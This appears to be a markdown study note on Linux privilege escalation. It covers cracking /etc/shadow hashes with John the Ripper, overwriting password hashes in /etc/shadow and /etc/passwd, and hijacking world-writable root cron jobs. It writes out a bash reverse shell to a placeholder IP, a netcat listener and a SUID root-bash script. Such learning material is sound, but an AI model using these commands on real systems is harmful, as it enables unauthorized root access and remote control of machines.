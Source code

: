 # Privileges Escalation - Linux

## /etc/shadow file
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.

## /etc/passwd file
- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing `x`.

## /etc/sudoers file
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.

  <img src="../imgs/sudoers.png" alt="sudoersImg" />

## /etc/crontab file
- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to gain a root shell in this way:
  ```
  #!/bin/bash
  cp /bin/bash /tmp/rootbash
  chmod +xs /tmp/rootbash
  ```
  - This script will copy the `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
  


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
